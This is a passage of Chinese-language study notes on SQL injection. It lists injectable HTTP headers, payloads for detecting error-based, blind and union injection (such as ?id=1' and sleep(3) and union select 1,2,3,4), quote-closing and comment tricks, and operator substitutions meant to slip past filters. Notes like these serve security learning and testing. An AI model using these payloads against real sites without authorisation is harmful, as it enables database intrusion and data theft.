 很明显的这个接口，页面url，输入框的传参参数是进入了数据库的。或http数据包中数据参数是进入了数据库的。
```
**Header注入**
User Agent 中文名为用户代理，简称 UA，它是一个特殊字符串头，使得服务器能够识别 客户使用的操作系统及版本、CPU 类型、浏览器及版本、浏览器渲染引擎、浏览器语言、 浏览器插件等。
有些网站为了统计来访为手机还是PC，会存入数据库。
**Cookie注入**
一般是因为后台程序，读取了cookie中的数据，并带入到数据库中执行了
**X-Forwarded-For**
是客户端通过HTTP代理或者负载均衡器连接到web服务端获取源IP地址的一个标准（通常一些网站的防注入功能会记录请求端真实IP地址并写入数据库或某文件，通过修改XXF 头可以实现伪造IP）
**Referer**
当浏览器向web服务器发送请求的时候，一般会带上 Referer，告诉服务器该网页是从哪个页面链接过来的，服务器因此可以获得一些信息用 于处理
Host
有些服务器无论请求什么Host，都有一个默认的Host站点响应时。
```

## **测试是否有注入**
检测报错注入:
```
加\ 转义'
?id=1\    有原生报错回显

加'
?id=1' 有原生报错回显，则存在报错注入，且为 ' 闭合 或 ')闭合。

加"
?id=1"  有原生报错回显，且为 " 闭合 或 ")闭合。

?id = 1 and 1=2 有原生报错回显。
```

检测布尔盲注：
```
?id = 1 and 1=2  报错不显示正常数据，或无原生报错回显。


?id=1' and 1=1 --+  不报错
?id=1" and 1=1 #  不报错
```
实际中少用1=1，防止waf：<https://xz.aliyun.com/t/8020?time__1311=n4%2BxuDgDBAeDqrgDlroGkzD8CDkYeDce4YupD&alichlgref=https%3A%2F%2Fcn.bing.com%2F>

检测时间盲注：
```
?id=1 and sleep(3) 三秒才返回。
```

检测联合注入：
有报错注入，有布尔注入，也可能有联合注入。
有回显，寻找注入点，判断闭合方式，判断列数，进行函数执行回显。
测试当前表的字段数
```
?id =1 ' order by 5 --+  //若到5报错，则此表有4个字段

?id = -1 ' union select 1,2,3,4 --+
?id = -1 union select 1,2,3,4
前报错，后替换回显1,2,3,4
```

^
## **闭合处理**
闭合的原理：
在网站当中存在用户可控制参数，又没有对这个进行严格过滤，导致用户可以用过同样的符号去结束前面的字符内容，执行后面的语句

常见的闭合方式：
* 数字类型(无闭合)
* 单引号 ’
* 双引号 ”
* 括号 ）
* 组合方式 ‘)  ")   '))   "))

闭合后需要用到的注释符去掉后面：
```
--+ --空格

'#'  单行注释,中间用 %23

多行还是用and 'a' = 'a

语句尾部不要也可以这样闭合
;%00
```




^
## **注入类型判断**
### 联合查询
```
页面有回显，可以通过联合查询获取数据
常见于select。

select * from sql_insertion where id =1  order by view_time limit 0,1;
A  B  from sql_insertion where id =C  order by D limit 0,E;
A B可以手工注入
C可以常规注入
D难注入
E难注入
```

### 报错注入
```
页面无直接回显，但是能回显报错信息，可以通过报错函数获取回显数据。
常见于select,insert,delete,update。
```

### 布尔盲注
```
sql错误报错不回显或不回显原生报错信息，可以通过布尔判断，分别sql语句有没有成功，从对数据库进行猜测
常见于select。
```
### 时间盲注
```
sql错误报错不回显或不回显原生报错信息，可以通过页面刷新时间，判断sql语句有没有成功，从对数据库进行猜测
常见于select,insert,delete,update。
```

^
## **过滤和逻辑运算符选择**
```
id = 1 and 1
id = 1 && 1

id = 1 or 1
id = 1 || 1

id=1||0 有0为0
id=1||1 无0为1

id=1^1^1
id=1|1
id=1&1
```